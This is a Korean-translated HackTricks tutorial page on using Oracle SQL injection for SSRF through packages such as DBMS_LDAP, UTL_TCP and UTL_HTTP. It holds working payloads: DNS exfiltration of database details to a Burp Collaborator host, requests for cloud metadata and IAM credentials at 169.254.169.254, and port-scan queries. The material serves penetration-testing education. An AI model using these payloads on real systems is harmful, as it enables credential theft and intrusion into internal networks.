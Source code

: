 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**이 게시물은 [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)에서 삭제된 게시물의 웨이백 머신 복사본을 제공합니다.**

## SSRF

Oracle을 사용하여 Out of Band HTTP 및 DNS 요청을 수행하는 것은 잘 문서화되어 있지만, SQL 데이터 유출의 수단으로도 사용됩니다. 우리는 항상 이러한 기술/기능을 수정하여 다른 SSRF/XSPA를 수행할 수 있습니다.

Oracle 설치는 정말 고통스러울 수 있으며, 특히 명령을 시도하기 위해 빠른 인스턴스를 설정하려는 경우 더욱 그렇습니다. [Appsecco](https://appsecco.com)의 친구이자 동료인 [Abhisek Datta](https://github.com/abhisek)가 [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c)를 알려주었고, 이를 통해 t2.large AWS Ubuntu 머신과 Docker에서 인스턴스를 설정할 수 있었습니다.

나는 `--network="host"` 플래그와 함께 도커 명령을 실행하여 이 블로그 게시물의 과정 동안 Oracle을 전체 네트워크 접근이 가능한 네이티브 설치로 모방할 수 있었습니다.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### URL 또는 호스트/포트 번호 사양을 지원하는 Oracle 패키지 <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

호스트 및 포트 사양을 지원하는 패키지와 기능을 찾기 위해 [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html)에서 Google 검색을 실행했습니다. 구체적으로,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
검색 결과는 다음과 같습니다 (모두 외부 네트워크를 수행하는 데 사용할 수 있는 것은 아님)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

이 간단한 검색은 `DBMS_LDAP`와 같은 패키지를 명백히 건너뜁니다 (호스트 이름과 포트 번호를 전달할 수 있음) [문서 페이지](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)가 단순히 [다른 위치](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)로 안내하기 때문입니다. 따라서 제가 놓쳤을 수 있는 외부 요청을 만들기 위해 악용될 수 있는 다른 Oracle 패키지가 있을 수 있습니다.

어쨌든, 우리가 발견하고 나열한 패키지 중 일부를 살펴보겠습니다.

**DBMS\_LDAP.INIT**

`DBMS_LDAP` 패키지는 LDAP 서버에서 데이터에 접근할 수 있도록 합니다. `init()` 함수는 LDAP 서버와의 세션을 초기화하며 호스트 이름과 포트 번호를 인수로 받습니다.

이 함수는 아래와 같이 DNS를 통해 데이터 유출을 보여주기 위해 이전에 문서화되었습니다.
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
그러나 이 함수가 호스트 이름과 포트 번호를 인수로 받기 때문에, 이를 사용하여 포트 스캐너처럼 작동할 수 있습니다.

다음은 몇 가지 예입니다.
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
`ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.`는 포트가 닫혀 있음을 나타내지만 세션 값은 포트가 열려 있음을 가리킵니다.

**UTL\_SMTP**

`UTL_SMTP` 패키지는 SMTP를 통해 이메일을 보내기 위해 설계되었습니다. [Oracle 문서 사이트에 제공된 예제는 이 패키지를 사용하여 이메일을 보내는 방법을 보여줍니다](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). 그러나 우리에게 흥미로운 점은 호스트 및 포트 사양을 제공할 수 있는 능력입니다.

아래는 2초의 타임아웃을 가진 `UTL_SMTP.OPEN_CONNECTION` 함수의 간단한 예입니다.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: transfer timeout`는 포트가 열려 있지만 SMTP 연결이 설정되지 않았음을 나타내고, `ORA-29278: SMTP transient error: 421 Service not available`는 포트가 닫혀 있음을 나타냅니다.

**UTL\_TCP**

`UTL_TCP` 패키지와 그 절차 및 함수는 [서비스와의 TCP/IP 기반 통신을 허용합니다](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). 특정 서비스에 맞게 프로그래밍된 경우, 이 패키지는 네트워크로의 접근 방법이 되거나 모든 TCP/IP 연결의 모든 측면을 제어할 수 있으므로 전체 서버 측 요청을 수행할 수 있습니다.

[Oracle 문서 사이트의 예제는 이 패키지를 사용하여 웹 페이지를 가져오기 위해 원시 TCP 연결을 만드는 방법을 보여줍니다](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). 우리는 이를 조금 더 단순화하여 메타데이터 인스턴스나 임의의 TCP/IP 서비스에 요청을 만드는 데 사용할 수 있습니다.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
흥미롭게도, 원시 TCP 요청을 작성할 수 있는 능력 덕분에 이 패키지는 모든 클라우드 제공자의 인스턴스 메타데이터 서비스에 쿼리하는 데에도 사용될 수 있습니다. 메서드 유형과 추가 헤더는 모두 TCP 요청 내에서 전달될 수 있습니다.

**UTL\_HTTP 및 웹 요청**

아마도 모든 Out of Band Oracle SQL Injection 튜토리얼에서 가장 일반적이고 널리 문서화된 기술은 [`UTL_HTTP` 패키지](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070)입니다. 이 패키지는 문서에서 다음과 같이 정의됩니다 - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
당신은 또한 다음과 같은 쿼리를 사용하여 기본적인 포트 스캐닝을 수행할 수 있습니다.
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` 또는 `TNS:operation timed out`는 TCP 포트가 닫혀 있다는 신호이며, `ORA-29263: HTTP protocol error` 또는 데이터는 포트가 열려 있다는 신호입니다.

제가 과거에 사용했던 또 다른 패키지는 [`HTTPURITYPE` Oracle 추상 타입의 `GETCLOB()` 메서드](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705)로, URL과 상호작용할 수 있게 해주며 HTTP 프로토콜을 지원합니다. `GETCLOB()` 메서드는 URL에서 GET 응답을 [CLOB 데이터 타입으로 가져오는 데 사용됩니다.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
